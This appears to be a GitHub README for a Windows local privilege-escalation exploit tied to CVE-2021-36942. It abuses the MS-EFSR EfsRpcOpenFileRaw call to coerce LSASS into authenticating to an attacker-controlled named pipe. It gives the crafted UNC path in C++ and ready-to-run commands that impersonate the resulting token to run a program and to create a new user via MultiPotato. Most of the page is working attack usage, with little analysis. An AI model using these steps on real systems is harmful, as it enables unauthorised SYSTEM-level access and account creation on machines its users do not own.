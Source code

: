 # Efsr-Client (CVE-2021-36942) 

Local privilege escalation method which forces LSASS.exe process to perform NTLM authentication using the MS-EFSR's EfsRpcOpenFileRaw method.
* By default LSASS.exe takes the UNC host device name and makes a `CreateFile` operation to the `\\<host>\pipe\srvsvc` UNC path.
* This is exploited by supplying a UNC host device of with forwarded slashes (`\\127.0.0.1/pipe/packet`).  
* The default `CreateFile` operation is changed from  `\\127.0.0.1\pipe\srvsvc` to `\\127.0.0.1\pipe\packet\pipe\srvsvc`. 

The `/pipe/packet` can be modified to change the pipe location.  
```c++
StringCchPrintf(pwszFilePath, MAX_PATH, L"\\\\127.0.0.1/pipe/AABB\\pipe\\srvsvc");
```

Invoke-PrintSpooferNet.ps1 can be used as a listener (Works, but crashes process). 
```ps1
ImportModule Invoke-PrintSpooferNet.ps1
Invoke-PrintSpooferNet -Pipe '\\.\pipe\AABB\pipe\srvsvc' -Command 'calc.exe' -Method 'CreateProcessWithTokenW'
```

[MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)

```cmd
MultiPotato.exe -t CreateUser -p AABB\pipe\srvsvc
EfsrClient.exe
```
